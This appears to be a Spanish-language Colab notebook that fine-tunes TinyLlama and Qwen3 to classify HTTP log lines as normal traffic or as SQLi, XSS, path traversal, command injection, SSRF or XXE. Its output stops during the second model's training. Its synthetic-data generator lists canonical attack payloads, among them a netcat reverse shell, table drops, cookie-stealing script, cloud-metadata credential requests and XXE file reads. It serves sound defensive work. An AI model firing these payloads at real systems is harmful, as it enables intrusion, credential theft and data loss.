# Fine-tuning de clasificadores de logs WAF - TinyLlama 1.1B y Qwen3 0.6B

Notebook de fine-tuning con **Unsloth** + **LoRA** sobre GPU T4. Entrena
dos modelos chicos para clasificar lineas de log HTTP por tipo de ataque
(SQLi, XSS, path traversal, command injection, SSRF, XXE) o trafico
normal, y compara la accuracy de ambos.


## Contexto

Este cuaderno es una adaptacion de un fine-tuning de `gpt-oss-20b` para
razonamiento multilingue. Se mantuvo la mecanica de Unsloth/LoRA/SFTTrainer
pero cambio por completo el objetivo:

| | Cuaderno original | Este cuaderno |
|---|---|---|
| Modelo | `gpt-oss-20b` (MoE, 20B) | `TinyLlama-1.1B` **y** `Qwen3-0.6B` (densos, chicos) |
| Dataset | Traducciones de razonamiento | Lineas de log HTTP/WAF |
| Tarea | Razonar en distintos idiomas | Clasificar tipo de ataque |
| Cuello de botella en T4 | VRAM (20B) | Ya no es un problema |
| Salida | Texto libre | JSON con `es_ataque`, `tipo`, `confianza` |

Al ser modelos densos y chicos, se elimino la maquinaria de fragmentacion
que existia en el original para evitar OOM con el LoRA de un MoE.

## Objetivo

Fine-tunear **TinyLlama-1.1B-Chat** y **Qwen3-0.6B** con el mismo dataset
y comparar su accuracy. Categorias:

- `normal` (trafico benigno)
- `sql_injection`
- `xss`
- `path_traversal`
- `command_injection`
- `ssrf`
- `xxe`

Complementa al cuaderno de benchmarking (`waf_clasificador_tinyllama_qwen.ipynb`):
responde si el fine-tuning mejora - y estabiliza - la clasificacion respecto
a solo few-shot prompting sobre los modelos base.

**Uso:** correr las celdas en orden. Los dos modelos se entrenan uno detras
del otro en la misma sesion, liberando VRAM entre medio.

## Configuracion central

In [1]:
# Configuracion global. Debe ejecutarse ANTES de importar torch/unsloth/trl
# para que las variables de entorno tengan efecto.
import os

# Reduce fragmentacion de VRAM.
os.environ["PYTORCH_CUDA_ALLOC_CONF"] = "expandable_segments:True"

# Fuerza a Unsloth a devolver los logits del forward. Necesario porque
# `dataset_kwargs={"skip_prepare_dataset": True}` en TRL calcula la loss
# fuera del modelo y requiere los logits crudos.
os.environ["UNSLOTH_RETURN_LOGITS"] = "1"

# Largo maximo de secuencia: una linea de log + system prompt + JSON de
# salida entra comodo en unos pocos cientos de tokens.
LARGO_MAXIMO = 384

# Semilla para reproducibilidad (generacion del dataset y splits).
SEMILLA = 3407


## Instalacion de dependencias

Se auto-detecta: solo instala si falta algo. Versiones pineadas para
garantizar compatibilidad entre Unsloth, TRL, transformers, torchao y
Python 3.13 sobre la imagen actual de Colab.

In [2]:
# Instalacion de Unsloth + TRL + dependencias. Se saltea si ya estan.
import importlib.util

def _falta(pkg):
    return importlib.util.find_spec(pkg) is None

FALTA_ALGO = _falta("unsloth") or _falta("bitsandbytes")

if FALTA_ALGO:
    print("Entorno nuevo detectado. Instalando (unos minutos)...")
    import os
    !pip install --upgrade -qqq uv
    !uv pip install -qqq --no-deps bitsandbytes hf_transfer
    !uv pip install -qqq \
        "unsloth==2025.9.1" \
        "unsloth_zoo==2025.9.1" \
        "transformers==4.56.0" \
        "trl==0.21.0" \
        "datasets==3.6.0" \
        "torchao>=0.16.0" \
        scikit-learn
    print()
    print("Instalado. AHORA: Entorno de ejecucion -> Reiniciar sesion,")
    print("y segui corriendo desde la celda de verificacion (la siguiente).")
    print("No corras esta celda de nuevo despues de reiniciar: ya no hace falta.")
else:
    print("unsloth y bitsandbytes ya estan instalados en esta VM. Nada que hacer.")


Entorno nuevo detectado. Instalando (unos minutos)...
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 20.1/20.1 MB 68.7 MB/s eta 0:00:00

Instalado. AHORA: Entorno de ejecucion -> Reiniciar sesion,
y segui corriendo desde la celda de verificacion (la siguiente).
No corras esta celda de nuevo despues de reiniciar: ya no hace falta.


## Verificacion del entorno

Chequea GPU, torch y bitsandbytes antes de seguir. `bitsandbytes` es
requerido para cargar los modelos en 4 bits.

In [3]:
# Diagnostico previo a la carga de modelos. Si falta bitsandbytes o GPU,
# imprime que hacer y frena.
import torch

print("GPU:", torch.cuda.get_device_name(0) if torch.cuda.is_available() else "SIN GPU")
print("torch:", torch.__version__)
print()

bloqueantes = []

try:
    import bitsandbytes
    print("bitsandbytes  ", bitsandbytes.__version__, " -> 4bit disponible")
except ImportError:
    print("bitsandbytes   AUSENTE")
    bloqueantes.append(
        "bitsandbytes no esta instalado. Arreglo:\n"
        "  !uv pip install -qqq --no-deps bitsandbytes\n"
        "  y despues REINICIAR SESION."
    )

if not torch.cuda.is_available():
    bloqueantes.append("No se detecto GPU. Entorno de ejecucion -> Cambiar tipo de entorno -> GPU (T4).")

if bloqueantes:
    print("\n--- HAY QUE RESOLVER ESTO ANTES DE SEGUIR ---")
    for b in bloqueantes:
        print("-", b)
else:
    print("\nOK para seguir.")


GPU: Tesla T4
torch: 2.11.0+cu128

bitsandbytes   0.50.2  -> 4bit disponible

OK para seguir.


<a name="Data"></a>
## Dataset sintetico de logs HTTP/WAF

Se genera un dataset de lineas de log estilo Apache/Nginx (formato
"combined") con payloads representativos de cada categoria mezclados con
trafico benigno. Los payloads son los patrones canonicos de OWASP: sirven
como training data para reconocer la **sintaxis**, no como exploits.

**Categorias:**

| Categoria | Que representa |
|---|---|
| `normal` | Trafico benigno: paths y query strings legitimos |
| `sql_injection` | Inyeccion SQL en parametros |
| `xss` | Cross-site scripting reflejado |
| `path_traversal` | Salida del root con `../` u ofuscaciones |
| `command_injection` | Ejecucion de comandos de shell via parametros |
| `ssrf` | Server-Side Request Forgery (metadata de nube, localhost, etc.) |
| `xxe` | XML External Entity en cuerpos XML |

**Sustituibilidad:** para reemplazar por logs reales (p. ej. CSIC 2010),
basta con producir un `Dataset` de HuggingFace con columnas
`mensaje_usuario` (log) y `etiqueta` (JSON esperado). El resto del cuaderno
no depende del generador.

In [4]:
# Generador de dataset sintetico. Combina payloads canonicos por categoria
# con paths/parametros legitimos, arma la linea de log completa (IP, fecha,
# metodo, path, status, tamano, user-agent) y devuelve pares (log, etiqueta).
import random
import json
from datasets import Dataset

random.seed(SEMILLA)

# Payloads canonicos (OWASP) por categoria de ataque.
PAYLOADS = {
    "sql_injection": [
        "' OR '1'='1' --",
        "' OR 1=1#",
        "admin'--",
        "1' UNION SELECT username, password FROM users--",
        "1; DROP TABLE users--",
        "' AND SLEEP(5)--",
        "' OR 'a'='a",
        "1 OR 1=1",
    ],
    "xss": [
        "<script>alert(1)</script>",
        "<img src=x onerror=alert(1)>",
        "\"><script>alert(document.cookie)</script>",
        "<svg/onload=alert(1)>",
        "<body onload=alert('xss')>",
        "javascript:alert(1)",
    ],
    "path_traversal": [
        "../../../../etc/passwd",
        "..%2f..%2f..%2fetc%2fpasswd",
        "....//....//boot.ini",
        "../../../windows/win.ini",
        "..\\..\\..\\windows\\system32\\config\\sam",
        "/../../../etc/shadow",
    ],
    "command_injection": [
        "; cat /etc/passwd",
        "| whoami",
        "&& id",
        "`id`",
        "; ping -c 3 127.0.0.1",
        "| nc -e /bin/sh 10.0.0.1 4444",
    ],
    "ssrf": [
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        "http://127.0.0.1:6379/",
        "http://localhost:22",
        "file:///etc/passwd",
        "http://[::1]:8080/admin",
        "http://169.254.169.254/latest/meta-data/",
    ],
    "xxe": [
        "<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><foo>&xxe;</foo>",
        "<?xml version=\"1.0\"?><!DOCTYPE data [<!ENTITY x SYSTEM \"http://169.254.169.254/\">]><data>&x;</data>",
    ],
}

# Componentes de trafico legitimo.
PATHS_NORMALES = [
    "/api/productos", "/api/usuarios/{id}", "/checkout", "/login",
    "/buscar", "/static/logo.png", "/api/pedidos/{id}/estado",
    "/perfil", "/carrito", "/api/categorias", "/health", "/favicon.ico",
]
PARAMS_NORMALES = [
    "id={id}", "pagina={pag}", "orden=precio_asc", "q=notebook",
    "categoria=electronica", "lang=es", "moneda=ARS", "session={sid}",
]

# Paths tipicos donde tiene sentido inyectar un payload.
PATHS_VULNERABLES = [
    "/api/productos", "/buscar", "/login", "/api/usuarios",
    "/comentarios", "/api/pedidos", "/upload", "/perfil/editar",
]

METODOS = ["GET", "GET", "GET", "POST", "POST"]
UAS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
    "Mozilla/5.0 (X11; Linux x86_64) Gecko/20100101 Firefox/128.0",
    "curl/8.4.0",
    "python-requests/2.31.0",
    "sqlmap/1.7#stable",
]

def ip_random():
    return f"{random.randint(1,223)}.{random.randint(0,255)}.{random.randint(0,255)}.{random.randint(1,254)}"

def fecha_random():
    dia = random.randint(1, 28)
    mes = random.choice(["Jan","Feb","Mar","Apr","May","Jun","Jul","Aug"])
    hh, mm, ss = random.randint(0,23), random.randint(0,59), random.randint(0,59)
    return f"{dia:02d}/{mes}/2026:{hh:02d}:{mm:02d}:{ss:02d} -0300"

def linea_log(metodo, path_y_query, status, ua):
    """Renderiza una linea de log en formato combined."""
    ip = ip_random()
    fecha = fecha_random()
    size = random.randint(200, 15000)
    return f'{ip} - - [{fecha}] "{metodo} {path_y_query} HTTP/1.1" {status} {size} "-" "{ua}"'

def generar_ejemplo_normal():
    """Genera un log de trafico legitimo con path y parametros validos."""
    path = random.choice(PATHS_NORMALES).format(id=random.randint(1,9999))
    n_params = random.randint(0, 3)
    params = random.sample(PARAMS_NORMALES, n_params)
    params = [p.format(id=random.randint(1,999), pag=random.randint(1,20),
                        sid="".join(random.choices("abcdef0123456789", k=16)))
              for p in params]
    query = ("?" + "&".join(params)) if params else ""
    metodo = random.choice(METODOS)
    log = linea_log(metodo, path + query, random.choice([200,200,200,201,304]), random.choice(UAS))
    return log, {"es_ataque": False, "tipo": "normal", "confianza": "alta"}

def generar_ejemplo_ataque(tipo):
    """Genera un log de ataque insertando un payload de `tipo` en un path vulnerable."""
    payload = random.choice(PAYLOADS[tipo])
    path = random.choice(PATHS_VULNERABLES)
    ua = random.choice(UAS)

    if tipo == "xxe":
        log = linea_log("POST", f"{path} HTTP/1.1\" body=\"{payload}", 403, ua)
    elif tipo == "command_injection":
        param = random.choice(["cmd", "host", "file", "input", "q"])
        log = linea_log(random.choice(["GET","POST"]), f"{path}?{param}={payload}", 403, ua)
    elif tipo == "ssrf":
        param = random.choice(["url", "callback", "webhook", "image_url"])
        log = linea_log(random.choice(["GET","POST"]), f"{path}?{param}={payload}", 403, ua)
    else:
        param = random.choice(["id", "q", "search", "username", "comment", "file"])
        log = linea_log(random.choice(["GET","POST"]), f"{path}?{param}={payload}", 403, ua)

    confianza = "alta" if tipo in ("sql_injection", "xss", "path_traversal") else "media"
    return log, {"es_ataque": True, "tipo": tipo, "confianza": confianza}

def construir_dataset(n_por_categoria_ataque=180, n_normales=650):
    """Arma el dataset completo: 180 ejemplos por cada tipo de ataque + 650 normales."""
    filas = []
    for tipo in PAYLOADS:
        for _ in range(n_por_categoria_ataque):
            log, etiqueta = generar_ejemplo_ataque(tipo)
            filas.append((log, etiqueta))
    for _ in range(n_normales):
        log, etiqueta = generar_ejemplo_normal()
        filas.append((log, etiqueta))
    random.shuffle(filas)
    return filas

filas = construir_dataset()
print(f"Total de ejemplos generados: {len(filas)}")

from collections import Counter
conteo = Counter(e["tipo"] for _, e in filas)
for tipo, n in sorted(conteo.items()):
    print(f"  {tipo:<20} {n}")


Total de ejemplos generados: 1730
  command_injection    180
  normal               650
  path_traversal       180
  sql_injection        180
  ssrf                 180
  xss                  180
  xxe                  180


In [5]:
# Muestra los primeros 5 ejemplos generados para inspeccion visual.
for log, etiqueta in filas[:5]:
    print(log)
    print(" ->", json.dumps(etiqueta, ensure_ascii=False))
    print()


201.176.43.230 - - [23/Jan/2026:04:32:35 -0300] "GET /api/usuarios?search=/../../../etc/shadow HTTP/1.1" 403 674 "-" "python-requests/2.31.0"
 -> {"es_ataque": true, "tipo": "path_traversal", "confianza": "alta"}

209.149.21.64 - - [07/Jan/2026:09:29:18 -0300] "POST /api/productos HTTP/1.1" body="<?xml version="1.0"?><!DOCTYPE data [<!ENTITY x SYSTEM "http://169.254.169.254/">]><data>&x;</data> HTTP/1.1" 403 6529 "-" "sqlmap/1.7#stable"
 -> {"es_ataque": true, "tipo": "xxe", "confianza": "media"}

206.95.100.168 - - [26/Jul/2026:15:12:40 -0300] "POST /api/productos HTTP/1.1" 201 13330 "-" "Mozilla/5.0 (X11; Linux x86_64) Gecko/20100101 Firefox/128.0"
 -> {"es_ataque": false, "tipo": "normal", "confianza": "alta"}

33.141.247.154 - - [19/Apr/2026:01:50:24 -0300] "GET /favicon.ico?lang=es&categoria=electronica&moneda=ARS HTTP/1.1" 304 5691 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
 -> {"es_ataque": false, "tipo": "normal", "confianza": "alta"}

79.35.176.231 - - 

## Split train/test y prompt del sistema

Split estratificado a mano (15% test por categoria). El `SYSTEM_PROMPT` se
"graba" en los pesos durante el fine-tuning, para que en inferencia
alcance con un prompt corto sin ejemplos few-shot.

In [6]:
# System prompt que se usa como cabecera fija en cada ejemplo de
# entrenamiento y luego en inferencia.
SYSTEM_PROMPT = (
    "Sos un clasificador de seguridad para logs de un WAF. Dada una linea de "
    "log HTTP, respondes SOLO con un JSON de la forma "
    '{"es_ataque": bool, "tipo": "normal|sql_injection|xss|path_traversal|'
    'command_injection|ssrf|xxe", "confianza": "alta|media|baja"}. '
    "No agregues texto fuera del JSON."
)

def split_train_test(filas, frac_test=0.15, semilla=SEMILLA):
    """Split estratificado por `tipo`: 15% de cada categoria va a test."""
    por_tipo = {}
    for log, etiqueta in filas:
        por_tipo.setdefault(etiqueta["tipo"], []).append((log, etiqueta))

    rnd = random.Random(semilla)
    train, test = [], []
    for tipo, ejemplos in por_tipo.items():
        rnd.shuffle(ejemplos)
        n_test = max(1, int(len(ejemplos) * frac_test))
        test.extend(ejemplos[:n_test])
        train.extend(ejemplos[n_test:])
    rnd.shuffle(train)
    rnd.shuffle(test)
    return train, test

train_filas, test_filas = split_train_test(filas)
print(f"Train: {len(train_filas)}  |  Test: {len(test_filas)}")


Train: 1471  |  Test: 259


## Conversion a `Dataset` de HuggingFace en formato chat

Cada fila se transforma en una conversacion de 3 turnos (system, user con el
log, assistant con el JSON de referencia). Los campos auxiliares
(`log`, `tipo_esperado`, `es_ataque_esperado`) se conservan aparte para la
evaluacion.

In [7]:
def filas_a_dataset(filas):
    """Convierte (log, etiqueta) en un `Dataset` con `messages` estilo chat
    y campos auxiliares para la evaluacion."""
    mensajes = []
    for log, etiqueta in filas:
        mensajes.append({
            "messages": [
                {"role": "system", "content": SYSTEM_PROMPT},
                {"role": "user", "content": log},
                {"role": "assistant", "content": json.dumps(etiqueta, ensure_ascii=False)},
            ],
            "log": log,
            "tipo_esperado": etiqueta["tipo"],
            "es_ataque_esperado": etiqueta["es_ataque"],
        })
    return Dataset.from_list(mensajes)

dataset_train = filas_a_dataset(train_filas)
dataset_test = filas_a_dataset(test_filas)
dataset_train, dataset_test


(Dataset({
     features: ['messages', 'log', 'tipo_esperado', 'es_ataque_esperado'],
     num_rows: 1471
 }),
 Dataset({
     features: ['messages', 'log', 'tipo_esperado', 'es_ataque_esperado'],
     num_rows: 259
 }))

<a name="Train"></a>
## Entrenamiento de los dos modelos

Se define `entrenar_y_evaluar(cfg)` una sola vez y se llama por cada
modelo, para no duplicar el codigo de carga/LoRA/entrenamiento. Los dos
modelos corren en la misma sesion de Colab, uno detras del otro,
liberando VRAM entre medio.

Cada modelo tiene su plantilla de chat propia (Zephyr para TinyLlama,
ChatML-like para Qwen3), por eso `MODELOS` incluye los delimitadores de
turno especificos.

In [8]:
# Configuracion declarativa de los dos modelos a fine-tunear.
# `instruction_part` / `response_part` son los marcadores de plantilla que
# separan el turno del usuario del turno del asistente, propios de cada modelo.
# Qwen3 desactiva el modo "thinking" para que aprenda a emitir directamente
# el JSON, sin bloque <think>.
MODELOS = [
    {
        "key": "tinyllama-1.1b",
        "model_id": "unsloth/tinyllama-chat-bnb-4bit",
        "instruction_part": "<|user|>\n",
        "response_part": "<|assistant|>\n",
        "chat_kwargs": {},
    },
    {
        "key": "qwen3-0.6b",
        "model_id": "unsloth/Qwen3-0.6B-unsloth-bnb-4bit",
        "instruction_part": "<|im_start|>user\n",
        "response_part": "<|im_start|>assistant\n",
        "chat_kwargs": {"enable_thinking": False},
    },
]

print("Modelos a entrenar en esta corrida:")
for m in MODELOS:
    print(" -", m["key"], "->", m["model_id"])


Modelos a entrenar en esta corrida:
 - tinyllama-1.1b -> unsloth/tinyllama-chat-bnb-4bit
 - qwen3-0.6b -> unsloth/Qwen3-0.6B-unsloth-bnb-4bit


## Verificacion de marcadores de plantilla

Chequea que el `instruction_part` / `response_part` declarado para cada
modelo aparezca literal en el texto renderizado por `apply_chat_template`.
Si Unsloth/transformers actualiza la plantilla de algun modelo, esta celda
lo detecta antes de gastar tiempo entrenando con una mascara mal puesta.

In [9]:
from transformers import AutoTokenizer

for cfg in MODELOS:
    tok = AutoTokenizer.from_pretrained(cfg["model_id"])
    ejemplo = dataset_train[0]["messages"]
    texto = tok.apply_chat_template(ejemplo, tokenize=False, add_generation_prompt=False,
                                     **cfg["chat_kwargs"])
    ok_instr = cfg["instruction_part"] in texto
    ok_resp = cfg["response_part"] in texto
    print(f"{cfg['key']:<15} instruction_part {'OK' if ok_instr else chr(0x274c)+chr(32)+'NO ENCONTRADO'}"
          f"   response_part {'OK' if ok_resp else chr(0x274c)+chr(32)+'NO ENCONTRADO'}")
    if not (ok_instr and ok_resp):
        print("----- texto renderizado, para ajustar los marcadores a mano -----")
        print(texto)
    del tok


tokenizer_config.json: 0.00B [00:00, ?B/s]

tokenizer.model:   0%|          | 0.00/500k [00:00<?, ?B/s]

tokenizer.json: 0.00B [00:00, ?B/s]

special_tokens_map.json:   0%|          | 0.00/438 [00:00<?, ?B/s]

tinyllama-1.1b  instruction_part OK   response_part OK


...

tokenizer.json:   0%|          | 0.00/11.4M [00:00<?, ?B/s]

added_tokens.json:   0%|          | 0.00/707 [00:00<?, ?B/s]

special_tokens_map.json:   0%|          | 0.00/614 [00:00<?, ?B/s]

chat_template.jinja: 0.00B [00:00, ?B/s]

qwen3-0.6b      instruction_part OK   response_part OK


## `entrenar_y_evaluar(cfg)`: pipeline completo por modelo

Para cada modelo:

1. Carga en 4bit con `FastLanguageModel.from_pretrained`.
2. Agrega adaptadores LoRA (`r=16`) sobre todas las proyecciones lineales
   (atencion + MLP).
3. Puerta de control: aborta si el LoRA quedo sospechosamente grande.
4. Tokeniza el dataset con `preparar_dataset`, enmascarando el prompt con
   `-100` para que la loss se calcule solo sobre la respuesta JSON.
5. Entrena con `SFTTrainer` sobre el dataset ya tokenizado
   (`skip_prepare_dataset=True`).
6. Evalua en el set de test comparando `tipo` y `es_ataque` contra el ground truth.
7. Guarda el adaptador LoRA en disco.
8. Libera el modelo de la GPU antes de pasar al siguiente.

In [12]:
import gc
import re
import inspect
from trl import SFTConfig, SFTTrainer
from unsloth import FastLanguageModel
try:
    from unsloth import is_bfloat16_supported
except ImportError:
    import torch
    def is_bfloat16_supported():
        return torch.cuda.is_available() and torch.cuda.is_bf16_supported()


def preparar_dataset(dataset, tokenizer, chat_kwargs):
    """Tokeniza cada conversacion y arma los labels enmascarando con `-100`
    todo el prompt (system + user), de modo que la loss se calcule solo
    sobre la respuesta del asistente.

    Se hace a mano (sin `train_on_responses_only`) para evitar dos problemas
    en Python 3.13: `BufferError` en el `dataset.map(num_proc=2)` interno
    de Unsloth, y matching por tokens que fallaba (BPE puede tokenizar la
    misma cadena distinto segun contexto) dejando todos los labels en -100.
    """
    def _tokenize(ejemplo):
        mensajes = ejemplo["messages"]
        prompt_texto = tokenizer.apply_chat_template(
            mensajes[:-1], tokenize=False, add_generation_prompt=True,
            **chat_kwargs,
        )
        completo_texto = tokenizer.apply_chat_template(
            mensajes, tokenize=False, add_generation_prompt=False,
            **chat_kwargs,
        )
        prompt_ids = tokenizer(prompt_texto, add_special_tokens=False)["input_ids"]
        completo_ids = tokenizer(completo_texto, add_special_tokens=False)["input_ids"]

        input_ids = completo_ids[:LARGO_MAXIMO]
        n_prompt = min(len(prompt_ids), len(input_ids))
        labels = [-100] * n_prompt + list(input_ids[n_prompt:])
        labels = labels[:LARGO_MAXIMO]
        attention_mask = [1] * len(input_ids)
        return {
            "input_ids": input_ids,
            "attention_mask": attention_mask,
            "labels": labels,
        }

    cols_a_borrar = dataset.column_names
    return dataset.map(_tokenize, batched=False, num_proc=1,
                        remove_columns=cols_a_borrar)


def extraer_json(texto_generado):
    """Extrae el primer bloque {...} del texto generado y lo parsea."""
    match = re.search(r"\{.*\}", texto_generado, re.DOTALL)
    if not match:
        return None
    try:
        return json.loads(match.group(0))
    except json.JSONDecodeError:
        return None


def evaluar_modelo(model, tokenizer, dataset_test, chat_kwargs, max_ejemplos=None):
    """Corre inferencia greedy sobre el set de test y devuelve accuracy
    binaria (es_ataque), accuracy de tipo, cantidad de fallos de parseo y
    el detalle por ejemplo."""
    FastLanguageModel.for_inference(model)
    n = len(dataset_test) if max_ejemplos is None else min(max_ejemplos, len(dataset_test))

    aciertos_tipo = 0
    aciertos_binario = 0
    fallos_parseo = 0
    detalle = []

    for i in range(n):
        ejemplo = dataset_test[i]
        mensajes = [
            {"role": "system", "content": SYSTEM_PROMPT},
            {"role": "user", "content": ejemplo["log"]},
        ]
        inputs = tokenizer.apply_chat_template(
            mensajes, add_generation_prompt=True, return_tensors="pt",
            return_dict=True, **chat_kwargs,
        ).to(model.device)

        with torch.no_grad():
            salida = model.generate(**inputs, max_new_tokens=80, do_sample=False)

        texto = tokenizer.decode(salida[0][inputs["input_ids"].shape[1]:], skip_special_tokens=True)
        pred = extraer_json(texto)

        if pred is None or "tipo" not in pred or "es_ataque" not in pred:
            fallos_parseo += 1
            detalle.append((ejemplo["log"], ejemplo["tipo_esperado"], None, texto))
            continue

        if pred["tipo"] == ejemplo["tipo_esperado"]:
            aciertos_tipo += 1
        if bool(pred["es_ataque"]) == bool(ejemplo["es_ataque_esperado"]):
            aciertos_binario += 1
        detalle.append((ejemplo["log"], ejemplo["tipo_esperado"], pred.get("tipo"), texto))

    return {
        "n_evaluados": n,
        "accuracy_tipo": aciertos_tipo / n,
        "accuracy_binaria": aciertos_binario / n,
        "fallos_parseo": fallos_parseo,
        "detalle": detalle,
    }


def entrenar_y_evaluar(cfg, dataset_train, dataset_test, pasos_demo=60, max_ejemplos_eval=None):
    """Pipeline completo para un modelo: carga -> LoRA -> tokenizacion ->
    entrenamiento -> evaluacion -> guardado del adaptador -> liberacion de VRAM."""
    print("=" * 70)
    print("Modelo:", cfg["key"], "->", cfg["model_id"])
    print("=" * 70)

    # --- Carga en 4bit ---
    model, tokenizer = FastLanguageModel.from_pretrained(
        model_name=cfg["model_id"],
        dtype=None,
        max_seq_length=LARGO_MAXIMO,
        load_in_4bit=True,
        full_finetuning=False,
    )

    # --- Adaptadores LoRA sobre todas las lineales (atencion + MLP) ---
    model = FastLanguageModel.get_peft_model(
        model,
        r=16,
        target_modules=["q_proj", "k_proj", "v_proj", "o_proj",
                         "gate_proj", "up_proj", "down_proj"],
        lora_alpha=16,
        lora_dropout=0,
        bias="none",
        use_gradient_checkpointing="unsloth",
        random_state=SEMILLA,
        use_rslora=False,
        loftq_config=None,
    )

    # --- Puerta de control: LoRA razonable ---
    entrenables = sum(p.numel() for p in model.parameters() if p.requires_grad)
    totales = sum(p.numel() for p in model.parameters())
    print(f"Parametros entrenables: {entrenables:,} / {totales:,} totales")
    assert entrenables < 100_000_000, (
        f"LoRA sospechosamente grande para un modelo de este tamano "
        f"({entrenables:,} parametros). Revisa target_modules."
    )

    ds_train_tok = preparar_dataset(dataset_train, tokenizer, cfg["chat_kwargs"])

    # --- Puerta de control: mascara de labels bien puesta ---
    ejemplo0 = ds_train_tok[0]
    utiles0 = sum(1 for l in ejemplo0["labels"] if l != -100)
    print(f"Tokens con label util en el primer ejemplo: {utiles0}/{len(ejemplo0['labels'])}")
    assert utiles0 > 0, (
        "El primer ejemplo quedo con TODOS los labels en -100. "
        "Revisar preparar_dataset() y la plantilla de este modelo."
    )

    # --- Configuracion de SFTTrainer con adaptacion a la version de TRL disponible ---
    args_sftconfig = dict(
        per_device_train_batch_size=4,
        gradient_accumulation_steps=2,
        num_train_epochs=2,
        max_steps=pasos_demo if pasos_demo else -1,
        packing=False,
        learning_rate=2e-4,
        warmup_steps=10,
        lr_scheduler_type="cosine",
        optim="adamw_8bit",
        logging_steps=10,
        seed=SEMILLA,
        output_dir=f"outputs_{cfg['key']}",
        report_to="none",
        dataset_num_proc=1,
        dataset_kwargs={"skip_prepare_dataset": True},
        # T4 (Turing) no soporta bf16; se detecta y se elige fp16 o bf16
        # segun la GPU real.
        fp16=not is_bfloat16_supported(),
        bf16=is_bfloat16_supported(),
    )
    # `max_seq_length` fue renombrado a `max_length` en TRL nuevo.
    parametros_validos = inspect.signature(SFTConfig.__init__).parameters
    if "max_seq_length" in parametros_validos:
        args_sftconfig["max_seq_length"] = LARGO_MAXIMO
    elif "max_length" in parametros_validos:
        args_sftconfig["max_length"] = LARGO_MAXIMO
    else:
        print("AVISO: no se encontro max_seq_length ni max_length en SFTConfig; "
              "se usa el default de esta version de TRL.")

    args = SFTConfig(**args_sftconfig)

    # `tokenizer` fue renombrado a `processing_class` en TRL 5.x.
    args_sfttrainer = dict(
        model=model,
        train_dataset=ds_train_tok,
        args=args,
    )
    params_trainer = inspect.signature(SFTTrainer.__init__).parameters
    if "processing_class" in params_trainer:
        args_sfttrainer["processing_class"] = tokenizer
    elif "tokenizer" in params_trainer:
        args_sfttrainer["tokenizer"] = tokenizer
    else:
        print("AVISO: SFTTrainer no acepta tokenizer ni processing_class; "
              "se omite y se usa el default.")

    trainer = SFTTrainer(**args_sfttrainer)

    model.train()
    for _n, _p in model.named_parameters():
        if "lora" in _n.lower():
            _p.requires_grad = True
    entrenables_post = sum(p.numel() for p in model.parameters() if p.requires_grad)
    print(f"Parametros entrenables tras SFTTrainer.__init__: {entrenables_post:,}")
    assert entrenables_post > 0, (
        "Los adaptadores LoRA quedaron desactivados despues de crear SFTTrainer. "
        "Chequear versiones de transformers/trl/unsloth."
    )

    gc.collect()
    torch.cuda.empty_cache()

    stats = trainer.train()

    print(f"Entrenamiento: {stats.metrics['train_runtime']:.1f}s "
          f"({stats.metrics['train_runtime']/60:.2f} min)")

    resultado_eval = evaluar_modelo(model, tokenizer, dataset_test, cfg["chat_kwargs"],
                                     max_ejemplos=max_ejemplos_eval)
    print(f"\nAccuracy binaria (es_ataque):  {resultado_eval['accuracy_binaria']*100:.1f}%")
    print(f"Accuracy de tipo de ataque:    {resultado_eval['accuracy_tipo']*100:.1f}%")
    print(f"Fallos de parseo de JSON:      {resultado_eval['fallos_parseo']} / {resultado_eval['n_evaluados']}")

    carpeta_adaptador = f"adaptador_{cfg['key']}"
    model.save_pretrained(carpeta_adaptador)
    tokenizer.save_pretrained(carpeta_adaptador)
    print(f"Adaptador LoRA guardado en: {carpeta_adaptador}/")

    del trainer, model
    gc.collect()
    torch.cuda.empty_cache()

    return {
        "key": cfg["key"],
        "model_id": cfg["model_id"],
        "train_runtime_s": stats.metrics["train_runtime"],
        "accuracy_binaria": resultado_eval["accuracy_binaria"],
        "accuracy_tipo": resultado_eval["accuracy_tipo"],
        "fallos_parseo": resultado_eval["fallos_parseo"],
        "n_evaluados": resultado_eval["n_evaluados"],
        "adaptador": carpeta_adaptador,
        "tokenizer_id": cfg["model_id"],
        "chat_kwargs": cfg["chat_kwargs"],
        "detalle_eval": resultado_eval["detalle"],
    }


## Correr el entrenamiento

`PASOS_DEMO=60` alcanza para una demo rapida; para un fine-tuning completo
usar `PASOS_DEMO = None` (usa `num_train_epochs=2`). Con estos modelos y
un dataset de ~1.900 ejemplos, la corrida completa entra en minutos en la
cuota gratuita de Colab.

In [13]:
PASOS_DEMO = 60  # None = corrida completa (num_train_epochs=2)

resultados = []
for cfg in MODELOS:
    resultado = entrenar_y_evaluar(cfg, dataset_train, dataset_test, pasos_demo=PASOS_DEMO)
    resultados.append(resultado)
    print()


Modelo: tinyllama-1.1b -> unsloth/tinyllama-chat-bnb-4bit
==((====))==  Unsloth 2025.9.1: Fast Llama patching. Transformers: 4.56.0.
   \\   /|    Tesla T4. Num GPUs = 1. Max memory: 14.563 GB. Platform: Linux.
O^O/ \_/ \    Torch: 2.11.0+cu128. CUDA: 7.5. CUDA Toolkit: 12.8. Triton: 3.6.0
\        /    Bfloat16 = FALSE. FA [Xformers = 0.0.35. FA2 = False]
 "-____-"     Free license: http://github.com/unslothai/unsloth
Unsloth: Fast downloading is enabled - ignore downloading bars which are red colored!
Parametros entrenables: 12,615,680 / 628,221,952 totales


Map:   0%|          | 0/1471 [00:00<?, ? examples/s]

Tokens con label util en el primer ejemplo: 29/239
Parametros entrenables tras SFTTrainer.__init__: 12,615,680


==((====))==  Unsloth - 2x faster free finetuning | Num GPUs used = 1
   \\   /|    Num examples = 1,471 | Num Epochs = 1 | Total steps = 60
O^O/ \_/ \    Batch size per device = 4 | Gradient accumulation steps = 2
\        /    Data Parallel GPUs = 1 | Total batch size (4 x 2 x 1) = 8
 "-____-"     Trainable parameters = 12,615,680 of 1,112,664,064 (1.13% trained)


Step,Training Loss
10,0.308000
20,0.089500
30,0.055200
40,0.049200
50,0.040800
60,0.040900


...

Map:   0%|          | 0/1471 [00:00<?, ? examples/s]

Tokens con label util en el primer ejemplo: 26/212
Parametros entrenables tras SFTTrainer.__init__: 10,092,544


